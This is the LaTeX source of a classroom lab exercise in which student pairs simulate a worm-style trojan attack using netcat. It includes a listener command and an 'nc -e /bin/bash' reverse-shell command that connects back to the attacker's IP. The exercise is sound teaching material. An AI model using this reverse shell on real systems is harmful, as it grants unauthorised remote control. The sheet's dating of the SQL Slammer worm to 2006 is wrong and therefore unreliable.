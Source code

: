 \documentclass[a4paper, 10pt]{article}
\begin{document}

\begin{problem}
We will mimic an attack used by several worms for placing a trojan horse into your computer.
Please note that it is for demonstration purposes only.
Please do not abuse it.
This attack is partly taken from the MSSQL SLAMMER worm that was spread in 2006.

\par\noindent Please install netcat.
\begin{itemize}
	\item Mac - use homebrew (\url{https://brew.sh/}). \\
	      \texttt{brew install netcat}
	\item Windows - use cygwin or download prebuilt binary \\
	      (\url{https://joncraton.org/blog/46/netcat-for-windows/})
	\item Linux - you may install netcat from your package distribution. \\
	      (On Debian-based Linux, use \texttt{apt install netcat-traditional})
\end{itemize}

\par Make a group of two persons. One is a victim. Another is an attacker.
Please connect to the same network/WIFI access point.
You may share a hotspot from your mobile phone. (Don't use ChulaWIFI for this.)
You may have to turn off your firewall to do this experiment.

\myspace

\par\noindent First, the attacker will start netcat in listen mode.
\begin{codingbox}[language=bash]
$ nc -p 60000 -l
$
\end{codingbox}

\par\noindent Once you get a change to the victim's machine, send a remote shell back to the hacker.
\begin{codingbox}[language=bash]
$ nc -e [/bin/bash or cmd.exe on Windows] [IP of Hacker] 60000
$
\end{codingbox}

\par\noindent You may change the port 60000 to any port that you want.
\end{problem}
\end{document}
